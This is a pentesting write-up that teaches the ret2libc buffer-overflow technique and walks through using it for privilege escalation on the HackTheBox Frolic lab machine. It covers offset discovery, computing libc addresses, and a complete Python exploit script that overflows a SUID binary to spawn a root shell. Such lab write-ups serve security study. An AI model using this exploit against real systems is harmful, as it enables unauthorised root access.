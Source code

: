 # Ret2Libc

Ret2Libc is a type of buffer overflow that would basically bypass a non-executable stack. This attack does not require any shellcode at all, but rather some specific addresses and hopping throughout the program. Ret2libc **bypasses DEP security features**.

Compared to the OSCP buffer overflow, where we simply use `jmp esp` to go to the top of the stack and then execute shellcode, this would control the EIP to jump to the library loaded whent the binary runs.

## How it Works

When we run a binary that uses functions from a library, these libraries are **loaded into the program's virtual space**. For example, the standard C library shared object located at `/lib/i386-linux-gnu/libc-*.so` is loaded for Linux, and it's the `ntdll.dll` file loaded for Windows.&#x20;

To gain RCE, we would need to find the `system()` function, which lives in the `libc` library. The EIP that we gain control of woulud then be used to _jump_ to this function by overflowing it with its return address. After moving to this function, we would need to **execute shell commands passed to this function**. For most cases, the command for RCE is `/bin/sh`.&#x20;

Basically, we would force a program to call `system("/bin/sh")` through manipulation of the EIP. Here's a visual representation of how it works:

<figure><img src="../.gitbook/assets/image (89) (2).png" alt=""><figcaption></figcaption></figure>

In general:

1. EIP has been overflown to have the address of `system()` in `libc`.
2. Right after, the address of `exit()` is included, which also is within `libc`. The reason we need this is because once `system()` returns, the program jumps to `exit()`, which would allow for the vulnerable program to exit and drop us in our shell.
3. Then, a pointer with the address of `/bin/sh` is present, which is the argument we are passing to the `system()` command.

So we need to find 3 things for this attack:

1. Address of `system()`
2. Address of `exit()`
3. Address of `/bin/sh`.

All of which can be found within libc. All of this is done through analyzing the `libc` file that is within a program, and some prior enumeration as to which library is being loaded needs to be done. The locating of the offset stays the same, using `pattern_create.rb` and `pattern_offset.rb` in most cases.

## Example

This is an example of a ret2libc attack from HTB Frolic, which contains this exploit as part of its privilege escalation.

Firstly, we would find a binary named `rop` that is left behind for us, and it has the SUID binary set, meaning that when we run it, we are running it as the `root` user. We can download a copy back to our machine for further testing (either using netcat or base64 to do so).

<figure><img src="../.gitbook/assets/image (39) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Enumeration and Offset

First, we need to use `checksec` on the binary to see what we can and cannot do:

<figure><img src="../.gitbook/assets/image (25) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Breaking down the output, we notice that ASLR is disabled, RELRO is partial (meaning we have some space for writing code) and most importantly, NX is enabled. The stack is non executable, meaning that shellcode cannot be injected here.

Then, we can run the binary and see what it does. I used `ltrace` to enumerate what library calls and functions are being used.

<figure><img src="../.gitbook/assets/image (95) (1) (2).png" alt=""><figcaption></figcaption></figure>

So first, we notice that the program takes **an unsanitised input from the user.** The 'Hello!' portion is user-supplied, and then it uses `strcpy`, which is a dangerous function vulnerable to BOF since it does not check for the length of input, and copes it to another place in memory.

So we now we know the vulnerable parameter is probably the `main()` function's `argv[1]` call. We can generate an offset using `pattern_create.rb` of length 100 first, and then run the program in `gdb` to see how it responds to our payload.

<figure><img src="../.gitbook/assets/image (27) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can use `pattern_offset.rb` to find the offset.

<figure><img src="../.gitbook/assets/image (87) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Finding Addresses

Now, within the **Frolic machine**, we would need to find the libraries it has. It has to be the machine itself because we want the RCE to work there to give us a root shell. We can use `ldd` to find the **address of which the libc.so file is loaded**.

<figure><img src="../.gitbook/assets/image (1) (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

So this binary loads the `libc.so.6` file in virtual memory. The base address is at `0xb7e19000`, and all other addresses we find are **offsets**, meaning we have to **add the addresses together** to find the specific address it is loaded at.

I first found the `/bin/sh` address using `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`

<figure><img src="../.gitbook/assets/image (6) (6) (1).png" alt=""><figcaption></figcaption></figure>

The offset is `0x0015ba0b`, and when added to the base address found earlier, we would get `0xb7f74a0b`. So `/bin/sh` is there.

Then, we need to find the `system()` function. I did so using `objdump` .&#x20;

<figure><img src="../.gitbook/assets/image (13) (2) (2).png" alt=""><figcaption></figcaption></figure>

Adding the offset, we would get `0xb7e53da0`. Lastly, we need `exit()` , which is found using the same manner.

<figure><img src="../.gitbook/assets/image (28) (2) (2).png" alt=""><figcaption></figcaption></figure>

`0xb7e479d0` is where `exit()` lives.&#x20;

### Exploit

Now that we have found all of this, we just need to put it together. Here's my final exploit script, using python `struct` to do so. Note that there are more automated ways of exploiting this, using `pwntools` or using online websites to find the addresses directly through finding the specific Linux version the machine is using or exact `libc` file being used.

Here's the final script:

```python
#!/usr/bin/python2

import struct  
# addresses from Frolic / Kali if testing locally
system_address = struct.pack("<I", 0xb7e53da0)
exit_address = struct.pack("<I", 0xb7e479d0)
string_address = struct.pack("<I", 0xb7f74a0b)

# fill the buffer with junk:
buffer = "A" * 52

# place the arguments for the call to system() on the stack, following the order defined by the x86 calling convention:
buffer += system_address
buffer += exit_address
buffer += string_address

# finally feed the program with the malicious payload
print buffer
```

Now, we just need to feed the output from this script into `rop`. This would spawn a root shell for us and we can finish the machine.

<figure><img src="../.gitbook/assets/image (4) (6) (1).png" alt=""><figcaption></figcaption></figure>
